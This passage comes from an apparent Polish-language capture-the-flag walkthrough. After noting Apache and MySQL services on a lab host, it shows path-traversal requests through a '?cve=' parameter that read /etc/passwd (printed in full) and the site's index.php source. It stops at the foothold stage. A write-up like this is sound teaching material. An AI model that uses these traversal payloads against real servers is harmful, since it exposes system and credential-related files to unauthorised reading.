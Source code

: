 ```
|   Salt: Zu_\0v&V^Vuh+;(UT&_0
|_  Auth Plugin Name: mysql_native_password
```

## Usługi

Ze skanu wynika, że mamy dwie usługi, apache na porcie 80 i mysql na 3306. Webserver wystawia prostą stronę z opisem ciekawych podatności. Każda z podatności jest wyświetlana na podstawie żądania GET z parametrem ```?cve=``` gdzie przesyłana jest nazwa podatności, którą chcemy wyświetlić. Okazuje się, że aplikacja jest podatna na <i>pathtraversal</i>.
```
http://172.27.27.10/?cve=../../../../../../../../../../../../../../../../etc/passwd
```
Daje nam
```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
manager:x:1000:1000:manager,,,:/home/manager:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
```
## Flaga nr 1
### Foothold
Sprawdźmy zatem pliki wyświetlanej strony.
```
http://172.27.27.10/?cve=../../../../../../../../../../../../../../../../var/www/MyBestCVEs/index.php
```
Strona wyświetla się nieprawidłowo gdyż plik zawiera znaczniki, które są interpretowane przez przeglądarkę, dlatego trzeba sprawdzić źródło strony. Znajdziemy tam pełny kod ```index.php```
```php
<?php
$db = require("database.php");
$db_cves = $db->query('select * from cves');
$cves = array();
while($db_cve = $db_cves->fetch_assoc())
{
    $cves[$db_cve['cve']] = $db_cve;
    echo "<a href=\"?cve={$db_cve['cve']}\">{$db_cve['cve']} ({$db_cve['name']})</a> <br/> ";
}
?>
```